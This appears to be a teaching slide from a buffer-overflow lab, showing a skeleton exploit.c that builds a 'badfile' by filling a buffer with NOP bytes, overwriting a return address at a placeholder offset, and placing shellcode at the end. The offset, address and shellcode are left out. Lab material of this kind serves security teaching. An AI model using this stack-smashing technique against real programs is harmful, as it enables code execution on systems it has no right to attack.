

# Construct the badfile - exploit.c
void main(int argc, char **argv)
{
    // Initialize buffer with 0x90 (NOP instruction)
    memset(&buffer, 0x90, 517);

    // From tasks A and B
    *((long *) (buffer + <distance - task A>)) = <address - task B>;

    // Place the shellcode towards the end of buffer
    memcpy(buffer + sizeof(buffer) - sizeof(shellcode), shellcode, sizeof(shellcode));

}